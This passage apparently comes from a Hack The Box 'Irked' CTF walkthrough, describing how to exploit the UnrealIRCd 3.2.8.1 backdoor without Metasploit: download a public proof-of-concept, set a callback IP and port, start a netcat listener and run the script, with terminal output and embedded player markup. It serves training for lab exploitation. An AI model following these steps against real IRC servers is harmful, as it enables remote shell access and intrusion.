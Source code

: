 		loop: true,
		autoPlay: true
			});
	</script>
	</body>
	</html>

## TCP/6697, 8067, 65534 (IRC) - UnrealIRCd 3.2.8.1 Backdoor Command Execution w/o Metasploit
1. Search for `unrealIRCd 3.2.8.1` exploits
	- Google: `unrealIRCd 3.2.8.1 -hackthebox -irked`
2. Download [exploit](https://github.com/geek-repo/UnrealIRCd-3.2.8.1/blob/master/poc.py)
3. Change payload to your IP address & Port 
4. Start listener & run exploit
	```
	┌──(root💀kali)-[~/htb/irked/10.10.10.117/exploit]                                                                                                                           
	└─# nc -nvlp 4444                                                                                                                                                           
	Ncat: Version 7.92 ( https://nmap.org/ncat )                                                                                                                                
	Ncat: Listening on :::4444                                                                                                                                                  
	Ncat: Listening on 0.0.0.0:4444                                                                                                                                             
									
	┌──(root💀kali)-[~/htb/irked/10.10.10.117/exploit]
	└─# python exploit.py 
	MADE BY :- SARTHAK
	                        Referenced by:- Metasploit source code
	NOTE:-I MADE THIS DUE TO PEOPLE PREPARING FOR OSCP WANT TO DO EXPLOITATION MANUALLY AS WELL AS THE EXPLOIT-DB EXPLOIT DOESN'T SEEM TO BE WORKING IDK WHY :(
	
	Sending payload baby :)
	Eyes on netcat sire 10...9...8...7...6...5..4..3...2..1..HAHA IT WILL COME :)
	```
5. Demo - UnrealIRCd 3.2.8.1 Backdoor Command Execution w/o Metasploit
	<html>
	<head>
	<link rel="stylesheet" type="text/css" href="/asciinema-player.css" />
	</head>
	<body>
	<div id="unrealircd_no_metasploit"></div>
	<script src="/asciinema-player.min.js"></script>
	<script>
		AsciinemaPlayer.create('https://raw.githubusercontent.com/yufongg/yufongg.github.io/main/_posts/Writeups/HackTheBox/Linux/Irked/images/unrealircd_no_metasploit.cast', document.getElementById('unrealircd_no_metasploit'), { 
		loop: true,
		autoPlay: true
			});
	</script>
	</body>
	</html>

# Privilege Escalation
